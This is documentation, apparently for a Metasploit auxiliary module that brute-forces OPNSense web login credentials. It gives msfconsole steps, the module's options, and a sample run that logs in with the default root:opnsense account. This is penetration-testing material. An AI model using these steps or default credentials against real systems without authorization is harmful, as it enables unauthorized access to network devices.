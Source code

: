 ## Vulnerable Application

This module attempts to bruteforce credentials for OPNSense.

This module was specifically tested on version 25.1 and 21.1, with older versions being unavailable from OPNSense mirrors.

Note:

By default, OPNSense comes with a built-in account named ```root``` with the password being ```opnsense```.

When performing too many login attempts, OPNSense will drop all packets coming from your IP, until the router is either:
- Restarted
- An anti-lockout rule is added

## Verification Steps

1. Set up an OPNSense VM or target a real installation
1. Start `bundle exec ./msfconsole -q`
1. `use auxiliary/scanner/http/opnsense_login`
1. `set ssl true`
1. `set pass_file ...`
1. `set user_file ...`
1. `run`
1. or, using some example inline options: `run pass_file=data/wordlists/default_pass_for_services_unhash.txt user_file=data/wordlists/default_pass_for_services_unhash.txt STOP_ON_SUCCESS=true SSL=true rport=443`
1. Verify you get a login:
```
[+] 192.168.207.158:443 - Login Successful: root:opnsense
```

## Options

### BLANK_PASSWORD

Set to `true` if an additional login attempt should be made with an empty password for every user.

### BRUTEFORCE_SPEED

How fast to bruteforce, from 0 to 5

### PASSWORD

A specific password to authenticate with

### PASS_FILE

File containing passwords, one per line

### STOP_ON_SUCCESS

Stop guessing when a credential works for a host

### THREADS

The number of concurrent threads (max one per host)

### USERPASS_FILE

File containing users and passwords separated by space, one pair per line

### USER_FILE

File containing usernames, one per line

### VERBOSE

Whether to print output for all attempts

## Scenarios
```
msf6 auxiliary(scanner/http/opnsense_login) > options

Module options (auxiliary/scanner/http/opnsense_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          opnsense         no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.207.161  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             443              yes       The target port (TCP)
   SSL               true             yes       Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   TARGETURI         /                yes       The base path to the OPNSense application
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          root             no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/opnsense_login) > run
[+] 192.168.207.161:443 - Login Successful: root:opnsense
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
